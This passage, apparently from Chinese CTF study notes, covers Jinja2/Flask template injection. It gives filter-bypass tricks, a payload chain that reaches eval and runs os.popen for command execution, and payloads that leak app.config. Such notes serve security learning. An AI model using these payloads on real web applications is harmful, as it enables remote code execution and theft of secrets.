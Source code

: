 `//popen的参数就是要执行的命令`



- 过滤关键词 : 字符拼接

```
''.__class__ 相当于:

''['__cla' + 'ss__'] 简单最常用
''['__cla'~'ss__']
''['__ssalc__'[::-1]] 转置(反转过来)
{%set a='__cla' %}{%set b='ss__'%}{{""[a~b]}}
""['__cTass__'.replace("T","l")] 替换单个字符
''["{0:c}{1:c}{2:c}{3:c}{4:c}{5:c}{6:c}{7:c}{8:c}".format(95,95,99,108,97,115,115,95,95)]  格式化字符串
''["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"] 十六进制拼接
''['X19jbGFzc19f'.decode('base64')] base64编码
''['__CLASS__'.lower()] 大小写
```

<span style='color:black;background:yellow;font-family:hei;font-weight:bold'>另一种绕过关键词过滤的方法: 通过`request.args.x`来通过其他GET传的参数来代替被过滤的关键词</span>:

```
?search={{[].__class__.__bases__[0].__subclasses__()[59][request.args.a][request.args.b][request.args.c][request.args.d](request.args.e)}}&a=__init__&b=__globals__&c=__builtins__&d=eval&e=__import__('os').popen('ls').read()

那么这里实际上就相当于:
?search={{[].__class__.__bases__[0].__subclasses__()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__('os').popen('ls').read()')
```

参数对照:

```
request              #request.__init__.__globals__['__builtins__']
request.args.x1   	 #get传参
request.values.x1 	 #所有参数
request.cookies      #cookies参数
request.headers      #请求头参数
request.form.x1   	 #post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data  		 #post传参	(Content-Type:a/b)
request.json		 #post传json  (Content-Type: application/json)
```



## 一般的利用思路:

[[WesternCTF2018]shrine](2e610037.html)

访问`config`中的某个元素:

```
{{config['FLAG']}}
{{config.FLAG}} 
{{self.dict._TemplateReference__context.config}}

config被过滤时:
{{url_for.__globals__['current_app'].config}} 
{{get_flashed_messages.__globals__['current_app'].config}} 
//利用__globals__访问current_app, 后者就是当前的app的映射, 自然就能访问到app.config. 但是需要依靠具体函数才能够访问__globals__
```
